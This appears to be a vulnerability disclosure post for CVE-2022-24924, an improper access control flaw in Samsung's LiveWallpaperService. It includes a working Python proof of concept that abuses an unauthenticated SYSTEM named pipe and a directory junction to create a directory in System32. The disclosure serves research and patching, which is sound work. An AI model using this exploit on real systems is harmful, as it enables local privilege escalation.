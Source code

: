 ```yaml
---
title : "CVE-2022-24924: Improper access control vulnerability in LiveWallpaperService"
excerpt: "CVE-2022-24924"

categories:
    - "0-day"
tags:
    - [Samsung, 0-day, CVE, CVE-2022-24924, EoP, LPE, PE]
---
```



# Improper access control vulnerability in LiveWallpaperService

Windows version tested: Windows 10 20H2 (Build 19042.1348) 64bit

Live Wallpaper Version: 3.0.9.0 or earlier

There is a LiveWallpaperService that works by default in Samsung laptops, but there was a vulnerability that created the SYSTEM directory in a directory with SYSTEM privileges in the SYSTEM service.

Live Wallpaper is usually installed by default on Samsung laptops, but it is also an app available from the Microsoft Store. The app can be run with User permission and communicates between the server and the client through Named PIPE IPC. At this time, the PIPE Server is operating with SYSTEM privileges and does not check which the clients are.

The following is the operation process performed when the corresponding app is launched.

Server is '33;' Upon receiving the unicode string, it accesses the 'C:\Users\{username}\AppData\Local\Packages\Sidia.LiveWallpaper_wkpx6gdq8qyz8' folder and checks the existence of the LiveWallpaperData directory. A new file system directory is created in the directory with the name 'LiveWallpaperData'.

Named PIPE is used to communicate with each other between processes. Since there is no separate client inspection, the attacker can directly open it and send the desired data.

First, after opening Named PIPE directly, create a directory junction to C:\Windows\System32 using symboliclink-testing-tools produced by james forshaw. It is created as a subdirectory of the System32 directory with privileges.

Here is the PoC for that vulnerability.

In order to perform PoC, the following conditions must be met:

1. Basically, LiveWallpaperService must be running in Windows.
2. The CreateMountPoint.exe executable file and DeleteMountPoint.exe executable file built using the symboliclink-testing-tools produced by james forshaw must exist in the same directory as the PoC.

```python
# python 3.7.2
import os
import shutil
import time
import getpass

def stringToWstring(st : str) -> str:
    result = ''
    for i in st:
        result += i+'\x00'
    return result

def main():
    # current user name
    username = getpass.getuser()

    # path settings
    path1 = f'C:\\Users\\{username}\\AppData\\Local\\Packages\\Sidia.LiveWallpaper_wkpx6gdq8qyz8'
    path2 = 'C:\\Windows\\System32'

    # delete directory
    if os.path.isdir(path1):
        shutil.rmtree(path1)

    # create directory junction
    command = f'CreateMountPoint.exe "{path1}" "{path2}"'
    os.system(command)

    # write data to named pipe
    with open('\\\\.\\pipe\\LiveWallpaperPipe', 'a') as f:
        f.write(stringToWstring('33;'))

    # IPC delay time
    time.sleep(2)

    # directory check
    if os.path.isdir(path2+'\\LiveWallpaperData'):
        print('[+] Success')
    else:
        print('[-] failed')

    # delete directory junction
    command = f'DeleteMountPoint.exe {path1}'
    os.system(command)
    shutil.rmtree(path1)

if __name__=='__main__':
    main()
```

## References
- [https://github.com/heegong/CVE/tree/main/CVE-2022-24924](https://github.com/heegong/CVE/tree/main/CVE-2022-24924)
- [https://www.cve.org/CVERecord?id=CVE-2022-24924](https://www.cve.org/CVERecord?id=CVE-2022-24924)
- [https://security.samsungmobile.com/serviceWeb.smsb?year=2022&month=2](https://security.samsungmobile.com/serviceWeb.smsb?year=2022&month=2)